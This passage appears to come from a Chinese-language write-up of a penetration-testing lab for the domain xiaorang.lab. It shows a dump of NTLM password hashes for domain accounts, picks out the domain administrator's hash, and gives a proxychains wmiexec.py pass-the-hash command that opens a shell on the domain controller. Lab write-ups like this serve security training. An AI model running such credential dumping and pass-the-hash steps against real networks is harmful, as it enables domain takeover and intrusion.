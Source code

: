 ```plain
xiaorang.lab\SM_015b052ab8324b3fa:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_9bd6f16aa25343e68:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_68af2c4169b54d459:1133:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\HealthMailbox8446c5b:1135:aad3b435b51404eeaad3b435b51404ee:fed1d348cd1f50aaf3e70a2814ce0c0e:::
xiaorang.lab\HealthMailbox0d5918e:1136:aad3b435b51404eeaad3b435b51404ee:05977f338f3f1407e6628277530a2ffd:::
xiaorang.lab\HealthMailboxeda7a84:1137:aad3b435b51404eeaad3b435b51404ee:1e89e23e265bb7b54dc87938b1b1a131:::
xiaorang.lab\HealthMailbox33b01cf:1138:aad3b435b51404eeaad3b435b51404ee:0eff3de35019c2ee10b68f48941ac50d:::
xiaorang.lab\HealthMailbox9570292:1139:aad3b435b51404eeaad3b435b51404ee:e434c7db0f0a09de83f3d7df25ec2d2f:::
xiaorang.lab\HealthMailbox3479a75:1140:aad3b435b51404eeaad3b435b51404ee:c43965ecaa92be22c918e2604e7fbea0:::
xiaorang.lab\HealthMailbox2d45c5b:1141:aad3b435b51404eeaad3b435b51404ee:4822b67394d6d93980f8e681c452be21:::
xiaorang.lab\HealthMailboxec2d542:1142:aad3b435b51404eeaad3b435b51404ee:147734fa059848c67553dc663782e899:::
xiaorang.lab\HealthMailboxf5f7dbd:1143:aad3b435b51404eeaad3b435b51404ee:e7e4f69b43b92fb37d8e9b20848e6b66:::
xiaorang.lab\HealthMailbox67dc103:1144:aad3b435b51404eeaad3b435b51404ee:4fe68d094e3e797cfc4097e5cca772eb:::
xiaorang.lab\HealthMailbox320fc73:1145:aad3b435b51404eeaad3b435b51404ee:0c3d5e9fa0b8e7a830fcf5acaebe2102:::
xiaorang.lab\Lumia:1146:aad3b435b51404eeaad3b435b51404ee:862976f8b23c13529c2fb1428e710296:::
Zhangtong:1147:aad3b435b51404eeaad3b435b51404ee:22c7f81993e96ac83ac2f3f1903de8b4:::
XIAORANG-WIN16$:1000:aad3b435b51404eeaad3b435b51404ee:7976f5ec5af95a3d0ffd94206520f401:::
XIAORANG-EXC01$:1103:aad3b435b51404eeaad3b435b51404ee:fd8408d2e99712fd9c0e3f9ff5a4a68a:::
XIAORANG-PC$:1104:aad3b435b51404eeaad3b435b51404ee:d8271e9779f091986a5a5219ab4f51dc:::
[*] Cleaning up...
```

找到域管理员的哈希

```plain
xiaorang.lab\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7acbc09a6c0efd81bfa7d5a1d4238beb:::
```

用这个哈希传递攻击，进一下 shell

```plain
proxychains python3 wmiexec.py xiaorang.lab/Administrator@172.22.3.2 -hashes :7acbc09a6c0efd81bfa7d5a1d4238beb -dc-ip 172.22.3.2
```

[![](assets/1707954377-b29f659404fdb2d4a9d3b8b8f8fb081d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173837-2c3174c0-c341-1.png)
